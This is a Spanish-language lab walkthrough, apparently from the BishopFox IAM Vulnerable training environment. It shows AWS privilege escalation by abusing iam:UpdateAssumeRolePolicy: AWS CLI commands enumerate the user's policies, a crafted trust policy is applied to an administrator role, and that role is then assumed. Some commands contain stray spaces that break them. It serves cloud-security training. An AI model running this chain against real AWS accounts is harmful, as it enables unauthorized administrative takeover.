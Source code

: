 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# AssumeRolePolicy Update

Una <mark style="color:green;">**AssumeRolePolicy**</mark> (también denominada política de confianza), define qué entidades pueden asumir un rol. El permiso para actualizar una <mark style="color:green;">**AssumeRolePolicy**</mark> cae técnicamente en la categoría de escalada de privilegios "Permisos sobre políticas". Sin embargo, AssumeRolePolicy merece una categoría aparte debido a su importancia en los entornos de AWS, además del hecho de que a menudo se malinterpreta.

<figure><img src="../../../.gitbook/assets/image (17) (2).png" alt=""><figcaption><p>MiPoliticaEC2</p></figcaption></figure>

La política llamada _MiPoliticaEC2_, especifica que el rol solamente puede ser asumida por el servicio EC2, como se indica en el objeto del JSON: “service”: “ec2.amazonaws.com”.

Cuando otra entidad del entorno (como un usuario u otro servicio) que intente asumir este rol AWS denegará la solicitud. Esta es una protección importante contra los intentos de escalar privilegios asumiendo un rol de privilegios elevados.

El permiso <mark style="color:green;">**iam:UpdateAssumeRolePolicy**</mark> proporciona a una entidad la capacidad de cambiar la <mark style="color:green;">**AssumeRolePolicy**</mark> de un rol. Por lo tanto, si un usuario no está incluido en esta política, pero tiene la capacidad de actualizarla, simplemente puede agregar su cuenta de usuario <mark style="color:green;">**AssumeRolePolicy**</mark>, y en consecuencia, asumir el rol. Según los permisos asociados con el rol, esto podría proporcionar una ruta para la escalada de privilegios.

## Laboratorio

{% embed url="https://github.com/BishopFox/iam-vulnerable#supported-privilege-escalation-paths" %}
Lab: IAM - Vulnerable | Escenario: privesc14
{% endembed %}

Usuario del laboratorio:privesc14-UpdatingAssumeRolePolicy-user con el rol:

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

### Configuración inicial

Listar las políticas asociadas al usuario:

{% code overflow="wrap" %}
```
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeR olePolicy-user
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (34) (2).png" alt=""><figcaption></figcaption></figure>

Después, usando el ARN del nombre de la política se puede listar los permisos:

{% code overflow="wrap" %}
```
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Ahora se tiene que generar llaves de acceso para trabajar con el usuario:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14- UpdatingAssumeRolePolicy-role --role-session-name privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Y configurar el acceso con AWS configure:

```bash
aws configure --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Y validar las llaves:

```bash
aws sts get-caller-identity --profile privesc14
```

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este escenario, se tiene que crear un documento de política que contenga el permiso **sts:AssumeRole** sobre el ARN del usuario atacante

{% code title="assumerolepolicy.json" overflow="wrap" %}
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
            },
            "Action": "sts:AssumeRole",
            "Condition": {}
        }
    ]
}

```
{% endcode %}

{% hint style="info" %}
El ARN del usuario que se encuentra en nuestra política maliciosa es el valor resultante del comando aws sts get-caller-identity
{% endhint %}

A continuación, se tiene que modificar la política para un rol administrativo con el permiso **update-assume-role-policy** , con el objetivo de que el usuario privesc14 pueda asumir dicho rol:

{% code overflow="wrap" %}
```
aws iam update-assume-role-policy --role-name Rol-Administrator --policy-document file://assumerolepolicy.json --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

Listando el rol que se acaba de de actualizar se puede observar que tiene capacidades de administrador

<figure><img src="../../../.gitbook/assets/image (19) (1) (2).png" alt=""><figcaption></figcaption></figure>

Dado que el rol apunta ahora a nuestro usuario y el usuario tiene capacidades de asumir roles, procedemos a asumir el rol actualizado malicioso:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrator-Spartan --role-session-name privesc14admin --profile privesc14
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15) (3).png" alt=""><figcaption></figcaption></figure>

Con las nuevas credenciales se proceden a configurar en aws configure con un nuevo perfil

```
aws configure --profile privesc14admin
```

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

Y dado que este rol ahora tiene permisos de administrador, podemos decir que se a comprometido exitosamente.





